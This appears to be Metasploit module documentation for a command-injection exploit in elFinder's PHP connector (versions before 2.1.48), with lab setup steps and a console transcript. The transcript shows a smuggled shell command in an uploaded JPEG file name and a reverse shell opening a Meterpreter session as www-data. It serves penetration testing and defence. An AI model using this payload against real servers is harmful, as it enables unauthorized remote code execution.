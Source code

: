 ## Description

  This module exploits a command injection vulnerability in elFinder
  versions prior to 2.1.48.

  The PHP connector component allows unauthenticated users to upload
  files and perform file modification operations, such as resizing and
  rotation of an image. The file name of uploaded files is not validated,
  allowing shell metacharacters.

  When performing image operations on JPEG files, the filename is passed
  to the `exiftran` utility without appropriate sanitization, causing
  shell commands in the file name to be executed, resulting in remote
  command injection as the web server user.

  The PHP connector is not enabled by default.

  The system must have `exiftran` installed and in `$PATH`.


## Vulnerable Software

  [elFinder](https://studio-42.github.io/elFinder/) is an open-source file
  manager for web, written in JavaScript using jQuery and jQuery UI.

  This module has been tested successfully on elFinder versions 2.1.47,
  2.1.20 and 2.1.16 on Ubuntu.

  Enable the PHP connector:

  ```
  mv php/connector.minimal.php-dist php/connector.minimal.php
  ```

  Install required `exiftran` utility:

  ```
  apt-get install exiftran
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session

## Options

  **TARGETURI**

  The base path to elFinder (default: `/elFinder/`)


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection 
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set rhosts 172.16.191.253
  rhosts => 172.16.191.253
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set targeturi /elFinder-2.1.47
  targeturi => /elFinder-2.1.47
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set verbose true
  verbose => true
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > check
  [*] 172.16.191.253:80 - The target service is running, but could not be validated.
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Uploading payload 'CDj7j1.jpg;echo 6370202e2e2f66696c65732f43446a376a312e6a70672a6563686f2a202e6b50555871684d5a2e706870 |xxd -r -p |sh& #.jpg' (1894 bytes)
  [*] Triggering vulnerability via image rotation ...
  [*] Executing payload (/elFinder-2.1.47/php/.kPUXqhMZ.php) ...
  [*] Sending stage (38247 bytes) to 172.16.191.253
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.253:35564) at 2019-03-08 21:57:18 -0500
  [!] Tried to delete .kPUXqhMZ.php, unknown result
  [*] No reply
  [*] Removing uploaded file ...
  [+] Deleted uploaded file
  
  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter > 
  ```

